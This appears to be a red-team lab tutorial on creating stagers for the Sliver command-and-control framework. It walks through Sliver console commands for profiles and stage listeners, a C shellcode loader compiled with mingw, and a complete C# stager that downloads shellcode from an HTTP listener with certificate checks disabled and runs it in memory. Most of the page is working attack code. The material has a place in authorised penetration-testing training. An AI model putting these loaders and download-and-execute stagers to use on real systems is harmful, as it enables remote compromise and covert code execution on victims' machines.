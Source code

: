 # Stagers

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary or commandline that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise we will create a new beacon profile for linux, stage it and use a bash script to download and execute 

```
[server] sliver > profiles new -b **%%LINUX_IPADDRESS%%** --format shellcode --skip-symbols --debug profile1

[*] Saved new implant profile profile1
```

The profile should now be available when listing them using `profiles` command.

```
[server] sliver > profiles

 Profile Name   Implant Type   Platform        Command & Control       Debug   Format       Obfuscation   Limitations 
============== ============== =============== ======================= ======= ============ ============= =============
 profile1       session        windows/amd64   [1] https://10.0.0.4   true    EXECUTABLE   disabled
```

A stage listener linked to the profile can now be created that will host your executable.

```
[server] sliver > stage-listener --url http://**%%LINUX_IPADDRESS%%**:7200 --profile profile1

[*] No builds found for profile profile1, generating a new one
[*] Job 1 (http) started
```

Once thats done the stage listener will host the second stage payload on the URL when specifying a file with extension `.woff` . For example, by reaching out to: [http://localhost:7200/test.woff](http://localhost:7200/test.woff) you will see that it downloads the second stage payload.

## Metasploit

You can generate msfvenom shellcode to connect back to our stage listener and retrieve the second stage payload, however you’ll need to include the `--prepend-size` argument to the stage listener as Metasploit payloads require the length to be prepended to the stage. You can either kill the previous stage listener using the `jobs -k` command or run the stage listener on a different port:

```html
[server] sliver > stage-listener --url http://**%%LINUX_IPADDRESS%%**:7202 --profile profile1 --prepend-size

[*] Sliver name for profile: IDEAL_THRONE
[*] Job 2 (http) started
```

Once you have the stage listener setup with prepend size, you can generate the stager shellcode:

```bash
[server] sliver > generate stager --lhost **%%LINUX_IPADDRESS%%** --lport 7202 --protocol http --save /tmp --format c

[*] Sliver implant stager saved to: /tmp/HOLLOW_CHINO
```

Create a new file on the Linux box with the following contents and replace the `%%STAGE_SHELLCODE%%` field with the shellcode previously created:

```bash
#include "windows.h"

int main()
{
        unsigned char buf[] = **%%STAGE_SHELLCODE%%** ;
    void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();

    return 0;
}
```

Finally compile the payload.

```bash
x86_64-w64-mingw32-gcc -o stage.exe stager.c
```

Once the executable is copied over to a windows host and run you should see a session connect back to your host.

## Custom stager

You can also use a custom stager that just retrieves sliver shellcode directly and loads it in memory similarly to the previous stager.

```bash
using System;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Threading.Tasks;

namespace ConsoleApp1
{
    internal class Program
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(
           IntPtr lpAddress,
           uint dwSize,
           AllocationType flAllocationType,
           MemoryProtection flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            out IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(
            IntPtr lpAddress,
            uint dwSize,
            MemoryProtection flNewProtect,
            out MemoryProtection lpflOldProtect);

        [DllImport("kernel32.dll")]
        public static extern uint WaitForSingleObject(
            IntPtr hHandle,
            uint dwMilliseconds);

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }

    static async Task Main(string[] args)
        {

            byte[] shellcode;

            using (var handler = new HttpClientHandler())
            {
                // ignore ssl, because self-signed
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

                using (var client = new HttpClient(handler))
                {
                    // Download the shellcode
                    shellcode = await client.GetByteArrayAsync("http://10.0.0.4:7200/whatever.woff");
                }
            }

            // Allocate a region of memory in this process as RW
            var baseAddress = VirtualAlloc(
                IntPtr.Zero,
                (uint)shellcode.Length,
                AllocationType.Commit | AllocationType.Reserve,
                MemoryProtection.ReadWrite);

            // Copy the shellcode into the memory region
            Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

            // Change memory region to RX
            VirtualProtect(
                baseAddress,
                (uint)shellcode.Length,
                MemoryProtection.ExecuteRead,
                out _);

            // Execute shellcode
            var hThread = CreateThread(
                IntPtr.Zero,
                0,
                baseAddress,
                IntPtr.Zero,
                0,
                out _);
            // Wait infinitely on this thread to stop the process exiting
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

## References

- [https://github.com/BishopFox/sliver/wiki/Stagers](https://github.com/BishopFox/sliver/wiki/Stagers)
